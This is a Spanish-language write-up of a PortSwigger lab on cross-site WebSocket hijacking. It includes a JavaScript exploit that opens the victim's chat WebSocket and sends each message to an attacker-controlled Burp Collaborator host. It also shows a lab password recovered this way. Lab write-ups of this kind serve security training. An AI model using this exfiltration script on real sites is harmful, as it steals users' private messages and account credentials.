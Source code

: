 ```yaml
---
title: Cross-site WebSocket hijacking
description: Laboratorio de Portswigger sobre WebSockets
date: 2025-02-19 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - WebSockets
tags:
  - Portswigger Labs
  - WebSockets
  - Cross-site WebSocket hijacking
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Para `resolver` este `laboratorio`, debemos `explotar` la funcionalidad de `WebSockets` para realizar un ataque de `Cross-Site WebSocket Hijacking`. Esto nos permitirá `interceptar` el `historial del chat` de la víctima y usar la información obtenida para `comprometer su cuenta`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/WebSockets-Lab-2/image_1.png)

Pulsamos sobre `Live chat` y vemos que hay un `chat` de `IA`. Este tipo de chats suelen ser `LLM's`, un tipo de `modelo de IA` entrenado con grandes volúmenes de texto para procesar y generar lenguaje natural. Estos modelos, como `ChatGPT`, son una subcategoría dentro del `NLP (Natural Language Processing)` y se especializan en tareas como `traducción`, `resumen`, `análisis de texto` y `generación de respuestas`

![](/assets/img/WebSockets-Lab-2/image_2.png)

Si nos `abrimos` el `inspector` de `Chrome` vemos que tenemos una `cookie` asignada

![](/assets/img/WebSockets-Lab-2/image_3.png)

Si accedemos a `Proxy > WebSockets history` podemos ver los `datos enviados` y `recibidos`, en el `primer mensaje` vemos el `handshake`, el `handshake` nos indica que ya estamos listos para poder `enviar mensajes`

![](/assets/img/WebSockets-Lab-2/image_4.png)

El `segundo mensaje` que obtenemos es al `conexión` del `otro usuario`

![](/assets/img/WebSockets-Lab-2/image_5.png)

`Enviamos` un `mensaje`

![](/assets/img/WebSockets-Lab-2/image_6.png)

Si nos vamos a `Burpsuite` podemos `ver` el `mensaje enviado`

![](/assets/img/WebSockets-Lab-2/image_7.png)

Si `inspeccionamos` el `código` vemos que se está usando `wss`, este es un `socket seguro`, el cual funciona sobre `HTTPS` y `cifra` las `comunicaciones` entre `cliente` y `servidor` mediante `TLS/SSL `

![](/assets/img/WebSockets-Lab-2/image_8.png)

Si nosotros `recargamos` la `web` con `F5` podemos ver como se `cargan todos los mensajes nuevamente` y se `restaura` el `chat` al `completo`. Podemos comprobar esto desde `Burpsuite`, `cada vez que recargamos la web se cargan todos los mensajes` y se vuelve a `establecer` la `conexión`

![](/assets/img/WebSockets-Lab-2/image_9.png)

Si `borramos` nuestra `cookie` y `refrescamos` la `página` se nos `asigna` una `nueva cookie` y un `nuevo chat`

![](/assets/img/WebSockets-Lab-2/image_10.png)

![](/assets/img/WebSockets-Lab-2/image_11.png)

Si `sustituimos` la `cookie` por la `anterior`, podemos volver a `recuperar` los `chats`

![](/assets/img/WebSockets-Lab-2/image_12.png)

Una vez validado esto, nos dirigimos a `Burpsuite Collaborator`, `pulsamos` en `Copy to clipboard`, `copiamos` la `dirección url` en el `script` y copiamos el `endpoint` del `chat` también para poder `establecer` una `conexión`. Una vez tenemos el `exploit` listo nos dirigimos al `Exploit server` y lo pegamos

```
<script>
    var ws = new WebSocket('wss://0a3500160349bd8c84a1ab7400a10009.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://efxlbue9fvngrpy1kw48884j3a91xrlg.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Cuando `pulsemos` sobre `Deliver exploit to victim` le `enviaremos` la `url` del `servidor` donde se `aloja` nuestro `exploit` y la víctima hará `click` sobre ella. Cuando eso ocurra, `obtendremos` sus `chats` en nuestro `subdominio` de `Burpsuite Collaborator`, en uno de esos `chats` podemos ver la `contraseña` del usuario `carlos`

![](/assets/img/WebSockets-Lab-2/image_13.png)

Pulsamos sobre `My account` e `iniciamos sesión` con las credenciales `carlos:no5jm5dbv3e89jna369b`

![](/assets/img/WebSockets-Lab-2/image_14.png)

![](/assets/img/WebSockets-Lab-2/image_15.png)
